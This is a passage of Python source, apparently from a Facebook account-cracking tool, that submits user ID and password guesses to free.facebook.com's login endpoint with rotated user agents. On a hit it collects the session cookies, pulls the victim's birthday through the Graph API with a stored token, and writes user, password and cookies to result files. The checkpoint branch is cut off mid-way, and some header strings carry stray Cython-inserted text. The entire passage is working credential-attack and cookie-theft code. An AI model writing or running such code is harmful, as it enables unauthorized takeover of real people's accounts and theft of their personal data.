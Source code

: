				ua = random.choice(["Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36[FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]","Mozilla/5.0 (Linux; Android 4.4.4; en-au; SAMSUNG SM-N915G Build/KTU84P) AppleWebKit/537.36 (KTHML, like Gecko) Version/2.0 Chrome/34.0.1847.76 Mobile Safari/537.36","Mozilla/5.0 (Linux; Android 4.1.2; Nokia_X Build/JZO54K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.87.90 Mobile Safari/537.36 NokiaBrowser/1.0,gzip(gfe)","Mozilla/5.0 (Linux; U; Android 4.4.2; zh-CN; HUAWEI MT7-TL00 Build/HuaweiMT7-TL00) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/40.0.2214.89 UCBrowser/11.3.8.909 Mobile Safari/537.36","Mozilla/5.0 (Linux; Android 10; M2006C3MG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Mobile Safari/537.36","Mozilla/5.0 (Linux; Android 7.0; SM-G930VC Build/NRD90M; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/58.0.3029.83 Mobile Safari/537.36"])
				headers_ = {"Host":"free.facebook.com","upgrade-insecure-requests":"1","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://free.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
				p = ses.get('https://free.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F', headers=headers_).text
				dataa = {"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":user,"flow":"login_no_pin","pass":pw,"next":"https://developers.facebook.com/tools/debug/accesstoken/"}
				_headers = {"Host":"free.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://free.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 4.4.4; en-au; SAMSUNG SM-N915G Build/KTU84P) AppleWebKit/537.36 (KTHML, like Gecko) Version/2.0 Chrome/34.0.1847.76 Mobile Safari/537.36","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://free.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
				po = ses.post("https://free.facebook.com/login/device-based/validate-password/?shbl=0", data = dataa, headers=_headers, allow_redirects = False)
				if "c_user" in ses.cookies.get_dict():
					try:
						kukis=";".join([key+"="+value for key,value in ses.cookies.get_dict().items()])
						romz = open('data/token.txt', 'r').read()
						lahir = requests.get(f"https://graph.facebook.com/{user}?fields=birthday&access_token={romz}").json()['birthday']
						day, month, year = lahir.split('/')
						month = bulan12[month]
						print ('\r %s*———> %s ◊ %s ◊ %s %s %s ◊ %s '%(H,user,pw,day,month,year,kukis))
						#os.popen("play-audio dapet.mp3")
						ok.append("%s ◊ %s ◊ %s %s %s ◊ %s "%(user,pw,day,month,year,kukis))
						open('OK/%s.txt' %(waktu), 'a').write(" *———> %s ◊ %s ◊ %s %s %s ◊ %s \n"%(user,pw,day,month,year,kukis))
						cek_apk(kukis)
						break
					except (KeyError, IOError):
						day = ''
						month = ''
						year = ''
					except:
						pass
					print ('\r %s*———> %s ◊ %s ◊ %s '%(H,user,pw,kukis))
					#os.popen("play-audio dapet.mp3")
					ok.append('%s ◊ %s ◊ %s'%(user,pw,kukis))
					open('OK/%s.txt'%(waktu), 'a').write(' *——— %s ◊ %s ◊ %s\n'%(user,pw,kukis))
					cek_apk(kukis)
					break
				elif 'checkpoint' in ses.cookies.get_dict():
					try:
						romz = open('data/token.txt', 'r').read()